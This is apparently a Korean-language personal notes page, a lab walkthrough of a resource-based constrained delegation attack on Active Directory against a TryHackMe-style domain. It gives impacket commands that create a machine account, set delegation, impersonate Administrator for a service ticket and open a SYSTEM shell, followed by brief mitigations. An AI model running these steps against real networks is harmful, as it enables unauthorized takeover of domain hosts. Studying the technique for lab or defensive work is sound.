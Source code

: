 ```yaml
---
layout: page
title: RBCD_(Resource-Based_Constrained_Delegation)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


## 리소스 기반 제한된 위임 (RBCD) 공격 가이드

RBCD(Resource-Based Constrained Delegation)는 기존의 제한된 위임(KCD)과 달리, 위임의 신뢰 관계를 리소스(예: 웹 서버) 측에서 설정하는 최신 위임 방식입니다. 이 공격은 공격자가 특정 컴퓨터 계정의 AD 개체 속성을 수정할 권한을 가질 때 발생하며, 이를 통해 해당 컴퓨터의 관리자 권한을 탈취할 수 있습니다.

### **공격 원리**

1.  공격자는 특정 컴퓨터(서버 B)의 AD 개체에 대한 쓰기 권한을 가집니다. (예: `GenericWrite`, `WriteDacl` 등)
2.  공격자는 자신이 제어하는 컴퓨터 계정(컴퓨터 A)을 생성하거나 이미 제어 중인 계정을 사용합니다.
3.  공격자는 서버 B의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 속성을 수정하여, 컴퓨터 A가 서버 B에 대해 위임 권한을 갖도록 설정합니다.
4.  이제 컴퓨터 A는 KDC에 S4U2proxy 요청을 보내, 특정 사용자(예: `Administrator`)를 사칭하여 서버 B의 특정 서비스(예: `cifs`)에 접근할 수 있는 서비스 티켓을 발급받을 수 있습니다.
5.  공격자는 이 티켓을 사용하여 서버 B에 `Administrator` 권한으로 접속합니다.

---

### **1. 취약점 식별**

- **목표:** 현재 공격자가 제어하는 계정이 쓰기 권한을 가진 다른 컴퓨터 계정을 찾습니다.
- **핵심 도구:** BloodHound
- **분석:** BloodHound에서 `Find paths to computers with GenericWrite`와 같은 쿼리를 실행하여, 현재 사용자가 제어할 수 있는 컴퓨터 객체를 시각적으로 쉽게 찾을 수 있습니다.

![Pasted_image_20250812235330.png](/image/Pasted_image_20250812235330.png)

---

### **2. 단계별 공격 절차 (`impacket` 활용)**

#### **1단계: 공격자 제어 컴퓨터 계정 확보**
- 도메인 사용자는 기본적으로 10개의 컴퓨터 계정을 도메인에 추가할 수 있습니다. 이 권한을 사용하여 공격자가 제어할 컴퓨터 계정을 생성합니다.

```bash
impacket-addcomputer <domain.local>/<compromised_user>:<password> -computer-name <ATTACKER-PC>$

impacket-addcomputer -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Password1!' -dc-host $target -domain-netbios thm.local 'THM.LOCAL/SUSANNA_MCKNIGHT:REDACTED'
```

#### **2단계: RBCD 관계 설정**
- `impacket-rbcd`를 사용하여, 1단계에서 생성한 `ATTACKER-PC가 공격 대상 서버(`VICTIM-PC)에 대해 위임하도록 설정합니다.

```bash
# GUEST 계정이라 패스워드는 필요없음. 빈 해쉬로 진행
# :31d6cfe0d16ae931b73c59d7e0c089c0 이건 빈 해쉬라는 뜻

impacket-rbcd THM.LOCAL/guest -hashes :31d6cfe0d16ae931b73c59d7e0c089c0  -dc-ip $target -delegate-to LABYRINTH$ -delegate-from ATTACKERSYSTEM$ -action write 
```

#### **3단계: 서비스 티켓 요청 (S4U2proxy)**
- `impacket-getST`를 사용하여, `ATTACKER-PC`의 권한으로, `Administrator`를 사칭하여 `VICTIM-PC`의 `cifs` 서비스에 접근하는 티켓을 요청합니다.
- [[GetST]]

```bash
# -spn: 요청할 서비스의 SPN
# -impersonate: 사칭할 사용자
impacket-getST -impersonate Administrator THM.LOCAL/ATTACKERSYSTEM\$:'Password1!' -spn cifs/LABYRINTH.THM.LOCAL -dc-ip $target
```
- 이 명령이 성공하면, 현재 디렉터리에 `Administrator.ccache` 파일이 생성됩니다.

#### **4. Pass-the-Ticket 및 원격 접속**
- 생성된 티켓을 환경 변수에 등록하고, `-k` 옵션을 사용하는 `impacket` 도구로 원격 접속을 시도합니다.

```bash
# .ccache 파일을 Kerberos 인증에 사용하도록 설정
export KRB5CCNAME=Administrator.ccache

# -k: Kerberos 인증 사용
# -no-pass: 비밀번호 없이, 캐시된 티켓으로 인증
impacket-wmiexec -k -no-pass <domain.local>/Administrator@VICTIM-PC.domain.local
```
- 성공 시 `VICTIM-PC`의 `SYSTEM` 셸을 획득하게 됩니다.

---

### **3. 방어 (Mitigation)**

- **ACL 감사:** 컴퓨터 객체에 대한 `GenericWrite`, `WriteDacl` 등 위험한 쓰기 권한이 일반 사용자에게 부여되지 않도록 정기적으로 AD의 ACL을 감사합니다.
- **중요 계정 보호:** 도메인 관리자 등 중요 계정의 속성에서 "계정은 민감하므로 위임할 수 없음(Account is sensitive and cannot be delegated)" 옵션을 활성화하여 위임 공격의 대상으로 사용되는 것을 방지합니다.
